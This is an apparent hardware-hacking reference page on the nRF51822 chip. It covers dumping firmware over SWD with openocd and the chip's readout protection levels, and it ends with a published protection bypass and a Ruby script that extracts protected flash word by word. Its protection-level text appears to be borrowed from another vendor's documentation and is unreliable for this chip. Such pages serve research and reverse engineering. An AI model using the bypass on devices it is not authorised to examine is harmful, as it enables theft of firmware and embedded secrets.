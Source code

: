 =================================
Nordic Semiconductor NRF51822 SoC
=================================

-------
Summary
-------

+------------+---------------------+---------+
| Category   | Feature             | Present |
+============+=====================+=========+
|Debugging   | JTAG port           | Yes     |
|            +---------------------+---------+
|            | SWD port            | Yes     |
|            +---------------------+---------+
|            | Custom debug port   | No      |
+------------+---------------------+---------+
| Protections| Read-out protection | Yes     |
|            +---------------------+---------+
|            | Known bypass        | Yes     |
+------------+---------------------+---------+

--------
Features
--------

The nRF51822 is a SoC able to communicate over many protocols:

  * ShockBurst (legacy)
  * Enhanced ShockBurst (250kbps, 1Mbps & 2Mbps)
  * Bluetooth Low Energy

It also includes:

  * internal Flash (128k or 256k)
  * Real Time Counter (RTC)
  * AES hardware encryption

-------------------
Firmware extraction
-------------------

Extract firmware through SWD
----------------------------

One of the simpliest way to extract the firmware from a nRF51822 is to connect to the SWD debug interface (if enabled), and try to dump memory with openocd.

First, connect a ST-Link v2 USB adapter to your machine and run openocd:

.. code-block:: text

    $ openocd -f /usr/share/openocd/scripts/interface/stlink-v2.cfg -f /usr/share/openocd/scripts/target/nrf51.cfg

Then use netcat to connect to OpenOcd, and halt the CPU:

.. code-block:: text

    $ nc localhost 4444
    [prompt here]
    halt


Eventually, tell OpenOcd to dump the flash into a file:

.. code-block:: text

    dump_image 0 0x40000 /target/dir/flash.bin

Protections
-----------

Nordic's NRF51 architecture provides three level of protection through its ReadOut Protection mechanism.

RDP level 0
~~~~~~~~~~~

ReadOut Protection is disabled,  **Flash memory is fully open and all memory operations are
possible in all boot configurations** (Debug features, Boot from RAM, from System memory
bootloader or from Flash memory). In this mode there is no protection.

RDP level 1
~~~~~~~~~~~

When the read protection level 1 is activated, no access (read, erase, and program) to Flash memory or backup SRAM can be performed via debug features such as Serial Wire or JTAG, even while booting from SRAM or system memory bootloader. However, when booting from Flash memory, accesses to this memory and to backup SRAM from user code are allowed.

Any read request to the protected Flash memory generates a bus error.

  * **Disabling RDP level 1 protection by re-programming RDP option byte to level 0 leads to a mass erase.**
  * **Access to Flash is still possible.**
  * **Debug features are still enabled.**

RDP level 2
~~~~~~~~~~~

When RDP level 2 is activated, all protections provided in Level1 are active and the chip is fully protected. The RDP option byte and all other option bytes are frozen and can no longer be modified. The JTAG, SWV (single-wire viewer), ETM, and boundary scan are disabled.

When booting from Flash memory, the memory content is accessible to user code. However, booting from SRAM or from system memory bootloader is no more possible.

**This protection is irreversible (JTAG fuse), so it’s impossible to go back to protection levels 1
or 0.**

  * **Debug features are disabled once and for all when RDP level 2 is set**


.. _nrf51_bypass:

Bypassing Firmware Extraction Controls
--------------------------------------

This was originally published by `Include Security <http://blog.includesecurity.com/2015/11/NordicSemi-ARM-SoC-Firmware-dumping-technique.html>`_ where they demonstrated that the RDP on the nRF51822 could be bypassed by the following method:

#. Ensure that the device has debug enabled and is halted (for openOCD this is :code:`reset halt`)
#. Locate a load instruction of the form :code:`ldr rN [ rM #0 ]`

  #. Such an instruction reads an address from a register (rM) and loads the data from that address into another register (rN), the #0 is an offset of zero e.g. :code:`ldr r3 [ r4, #0 ]` would load the data at memory address held in r4 into the r3 register
  #. A method for iterating through the code in openOCD is given in the above link

#. Using openOCD, set the register value of the address you want to dump into the relevant register in your target code (you can also set the PC) and then run :code:`step` to step through the instruction. You now have the value at the desired address in the register you want.
#. Iterate this using a script to dump the full firmware

An example in Ruby taken from the above article is here:

.. code-block:: ruby
   :linenos:

   #!/usr/bin/env ruby

   require 'net/telnet'

   debug = Net::Telnet::new("Host" => "localhost",
                            "Port" => 4444)

   dumpfile = File.open("dump.bin", "w")

   ((0x00000000/4)...(0x00040000)/4).each do |i|
     address = i * 4
     debug.cmd("reset halt")
     debug.cmd("step")
     debug.cmd("reg r3 0x#{address.to_s 16}")
     debug.cmd("step")
     response = debug.cmd("reg r3")
     value = response.match(/: 0x([0-9a-fA-F]{8})/)[1].to_i 16
     dumpfile.write([value].pack("V"))
     puts "0x%08x:  0x%08x" % [address, value]
   end

   dumpfile.close
   debug.close
